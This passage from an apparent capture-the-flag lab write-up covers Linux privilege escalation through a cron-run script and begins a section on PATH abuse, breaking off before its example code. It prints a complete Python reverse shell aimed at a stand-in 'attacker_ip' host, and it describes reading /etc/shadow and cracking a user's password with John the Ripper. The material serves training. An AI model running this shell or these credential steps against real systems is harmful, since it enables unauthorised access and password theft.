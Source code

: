 Let's explore the `/tmp/test.py` for the fun of it! You will find that the test.py file does not exist in the `/tmp` folder. You can create it though, so let's create `test.py`! 

```python
#!/usr/bin/python3

import socket
import subprocess
import os

# Change to the attacker's IP and port
HOST = 'attacker_ip'
PORT = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

# Redirecting standard input, output, and error to the socket
os.dup2(s.fileno(), 0)  # stdin
os.dup2(s.fileno(), 1)  # stdout
os.dup2(s.fileno(), 2)  # stderr

# Launch the shell
subprocess.call(['/bin/sh', '-i'])
```
Let's try it out by running `python3 test.py` and having a listener on our host. You will see that we get a shell but with Karen as our user. This is expected since we ran it as Karen. If you wait a minute you should receive a root-shell here also! 

***Note***

There are a few things to note though, firs off the `#!/usr/bin/python3` on the first line makes sure that the python uses the Python interpreter and not the default, specified by `SHELL` as `/bin/sh`.

You also need to make the python file is executable as well. e

Now that we have root privileges we can check the contents of flag5.txt.

---

**Q: What is Matt's password**  
With root privileges we can check the `/etc/shadow` file, which along with the `/etc/passwd` could give us a password. We have done this before (task 7), you can either copy the entire files or only Matt's specific lines. Use John the Ripper to retrieve the password.

## Task 10: Privilege Escalation: PATH
The `PATH` environment variable in Linux specifies the directories the system searches for executable programs when commands are entered in the terminal. When you type a command without providing its full path, the system checks each directory listed in `$PATH` from left to right. It uses the first executable it finds that matches the command name.

Let's consider an example similar to one from TryHackMe (THM):

There is a file owned by root, named `path_exp.c`, which contains the following code:


[^1]: <https://man7.org/linux/man-pages/man8/ld.so.8.html>